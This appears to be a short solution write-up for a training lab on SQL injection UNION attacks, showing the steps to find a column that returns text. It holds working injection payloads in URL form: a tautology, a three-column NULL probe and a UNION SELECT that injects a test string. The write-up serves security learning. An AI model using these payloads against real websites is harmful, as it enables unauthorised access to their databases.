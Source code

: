 ![image](https://github.com/user-attachments/assets/c330ef4c-a56c-430b-a7b9-eb033bf67e11)

---

### LAB 8 - SQL injection UNION attack, finding a column containing text

### Lab Description

![image](https://github.com/user-attachments/assets/4ef0709e-e36a-44a4-aeb9-4954507f7e4b)

### Solution

Here's the properly formatted markdown (`.md`) version of your SQL injection testing notes:


## Initial Observations
- The table displays 2 visible values:
  1. Product name
  2. Product price

![image](https://github.com/user-attachments/assets/f385f026-f806-42cc-88be-23e27a9c30e4)

## Basic Injection Payloads
These payloads successfully display:
- The 4 items in Accessories category
- All items in the database

```
/filter?category=Accessories'--
/filter?category=Accessories'+or+1=1--
```

## UNION Attack Setup
Determined the query returns 3 columns. Test with(we can also used ORDER BY 4 --):

```
/filter?category=Accessories'+union+all+select+NULL,NULL,NULL--
```

## String Injection Test
Successfully injected test string "Qrc0Pq" in the second column and catgory of product increase from 4 to 5:

```
/filter?category=Accessories'+union+all+select+'0','Qrc0Pq','1234'--
```
![image](https://github.com/user-attachments/assets/a5484dfe-eaab-4770-940e-62208f0d78a7)


![image](https://github.com/user-attachments/assets/c8b503cc-2d79-4aee-9766-008f59ff2f61)

